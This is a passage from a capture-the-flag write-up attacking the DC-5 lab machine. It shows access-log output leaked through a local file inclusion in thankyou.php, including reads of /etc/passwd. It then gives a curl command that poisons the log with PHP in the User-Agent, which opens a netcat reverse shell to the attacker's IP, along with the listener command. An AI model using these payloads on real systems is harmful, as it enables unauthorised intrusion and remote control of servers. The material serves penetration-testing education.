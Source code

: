 ~~~
		<div class="footer-wrapper">
			<footer>
				172.16.222.128 - - [10/Oct/2020:04:24:22 +1000] "GET /thankyou.php?file=/var/log/nginx/access.log HTTP/1.1" 200 847 "-" "curl/7.72.0"
172.16.222.128 - - [10/Oct/2020:04:25:01 +1000] "GET / HTTP/1.1" 200 1718 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
172.16.222.128 - - [10/Oct/2020:04:25:03 +1000] "GET /index.php HTTP/1.1" 200 1718 "http://dc-5/" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
172.16.222.128 - - [10/Oct/2020:04:25:04 +1000] "GET /solutions.php HTTP/1.1" 200 1746 "http://dc-5/index.php" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
172.16.222.128 - - [10/Oct/2020:04:25:05 +1000] "GET /about-us.php HTTP/1.1" 200 1824 "http://dc-5/solutions.php" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
172.16.222.128 - - [10/Oct/2020:04:25:06 +1000] "GET /faq.php HTTP/1.1" 200 2245 "http://dc-5/about-us.php" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
172.16.222.128 - - [10/Oct/2020:04:25:06 +1000] "GET /contact.php HTTP/1.1" 200 1830 "http://dc-5/faq.php" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
172.16.222.128 - - [10/Oct/2020:04:25:13 +1000] "GET /thankyou.php?firstname=test&lastname=test&country=australia&subject=test HTTP/1.1" 200 423 "http://dc-5/contact.php" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
172.16.222.128 - - [10/Oct/2020:04:25:15 +1000] "GET /thankyou.php?firstname=test&lastname=test&country=australia&subject=test HTTP/1.1" 200 423 "http://dc-5/contact.php" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
172.16.222.128 - - [10/Oct/2020:04:25:15 +1000] "GET /css/styles.css HTTP/1.1" 304 0 "http://dc-5/thankyou.php?firstname=test&lastname=test&country=australia&subject=test" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
172.16.222.128 - - [10/Oct/2020:04:25:15 +1000] "GET /thankyou.php?firstname=test&lastname=test&country=australia&subject=test HTTP/1.1" 200 422 "http://dc-5/contact.php" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
172.16.222.128 - - [10/Oct/2020:04:25:15 +1000] "GET /css/styles.css HTTP/1.1" 304 0 "http://dc-5/thankyou.php?firstname=test&lastname=test&country=australia&subject=test" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
172.16.222.128 - - [10/Oct/2020:04:25:24 +1000] "GET /thankyou.php?firstname=filename=/etc/passwd HTTP/1.1" 200 423 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
172.16.222.128 - - [10/Oct/2020:04:25:38 +1000] "GET /thankyou.php?firstname?file=/etc/passwd HTTP/1.1" 200 422 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
172.16.222.128 - - [10/Oct/2020:04:25:45 +1000] "GET /thankyou.php?file=/etc/passwd HTTP/1.1" 200 986 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
			</footer>
		</div>
	</div>
</body>
</html>
~~~

OK, now, we'll use this to poison the log file and inject a reverse shell command in the User-Agent string:

~~~
$ curl -A "<?php system('nc -e /bin/bash 172.16.222.128 4444'); ?>" -s http://dc-5/thankyou.php
~~~

Now, start a listener (`rlwrap nc -nlvp 4444`) and call the access.log file again. It will be included and the PHP string will be interpreted.
